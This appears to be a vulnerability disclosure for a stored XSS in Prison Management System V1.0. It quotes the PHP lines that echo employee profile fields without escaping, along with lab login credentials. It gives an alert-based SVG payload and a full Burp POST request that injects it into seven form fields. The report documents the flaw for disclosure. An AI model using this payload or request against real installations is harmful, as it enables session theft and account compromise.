 # Prison Management System
## XSS on `/Employee/edit-profile.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/Account/Login.php
releaseme@gmail.com
escobar2012
```

### Affected Page:

```
/Employee/edit-profile.php、/Employee/profile.php
```

The parameter `txtfullname` 、`txtdob` 、`txtaddress`、`txtqualification`、`cmddept`、`cmdemployeetype`、`txtappointment`are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# /Employee/edit-profile.php

# txtfullname
150 <input type="text" size="77" name="txtfullname" value="<?php echo $row['fullname'];   ?>" class="form-control" required="">

# txtdob
168 <input type="text" size="77" name="txtdob" value="<?php echo $row['dob'];   ?>" class="form-control">

# txtaddress
173 <input type="text" size="77" name="txtaddress" value="<?php echo $row['address'];   ?>" class="form-control">

# txtqualification
177 <input type="text" size="77" name="txtqualification" value="<?php echo $row['qualification'];   ?>" class="form-control">

# cmddept
180 <select name="cmddept" id="cmddept" class="form-control" required="">
181 <option value="<?php echo $row['dept'];   ?>"><?php echo $row['dept'];   ?></option>
182 <option value="Security">Security</option>
183 <option value="Bursary">Bursary</option>
184 <option value="Student Affairs">Student Affairs</option>
185 <option value="Clinic">Clinic</option>
186 <option value="ICT">ICT</option>
187 <option value="Admin">Admin</option>
188 <option value="Science & Technology">Science & Technology</option>
189 <option value="Management Technolgy">Management Technolgy</option>
190 <option value="Engineering Technology">Engineering Technology</option>
191 </select>

# cmdemployeetype
195 <select name="cmdemployeetype" id="cmdemployeetype" class="form-control" required="">
196 <option value="<?php echo $row['employee_type'];   ?>"><?php echo $row['employee_type'];   ?></option>
197 <option value="Academic">Academic</option>
198 <option value="Non-Academic">Non-Academic</option>
199 </select>

# txtappointment
203 <input type="text" size="77" name="txtappointment" value="<?php echo $row['date_appointment'];   ?>" class="form-control">
```

```php
# /Employee/profile.php

# txtfullname
134 <strong>Fullname :</strong> <?php echo $rowaccess['fullname'];?> <br>

# txtdob
161 <strong>Date of Birth :</strong> <?php echo $rowaccess['dob'];?>  <br>

# txtaddress
184 <strong>Address :</strong> <?php echo $rowaccess['address'];?>  <br>

# txtqualification
192 <strong>Qualification :</strong> <?php echo $rowaccess['qualification'];?>  <br>

# cmddept
200 <strong>Department :</strong> <?php echo $rowaccess['dept'];?>  <br>

# cmdemployeetype
217 <strong>Employee Type :</strong> <?php echo $rowaccess['employee_type'];?>  <br>

# txtappointment
208 <strong>Date Appointment :</strong> <?php echo $rowaccess['date_appointment'];?>  <br>
```

### Proof of Concept:

Payload:

```
<svg/onload=alert``>
```

Burp Request:

```
POST /Employee/edit-profile.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 317
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Employee/edit-profile.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=90379e534d51402f246c8b8c9ff11b59
Connection: close

txtfullname=<svg/onload=alert`1`>&cmdsex=less_10&txtphone=less_12&txtdob=<svg/onload=alert`2`>&txtaddress=<svg/onload=alert`3`>&txtqualification=<svg/onload=alert`4`>&cmddept=<svg/onload=alert`5`>&cmdemployeetype=<svg/onload=alert`6`>&txtappointment=<svg/onload=alert``>&txtbasic_salary=num&txtgross_pay=num&btnedit=1
```

### Screenshot

![image-20240505125258930](/screenshot/image-20240505125258930.png)

![image-20240505125406779](/screenshot/image-20240505125406779.png)

![image-20240505125352394](/screenshot/image-20240505125352394.png)

![image-20240505125439824](/screenshot/image-20240505125439824.png)

![image-20240505125453349](/screenshot/image-20240505125453349.png)

![image-20240505125237125](E:\CVE\Prison Management System\screenshot\image-20240505125237125.png)

![image-20240505125511815](/screenshot/image-20240505125511815.png)
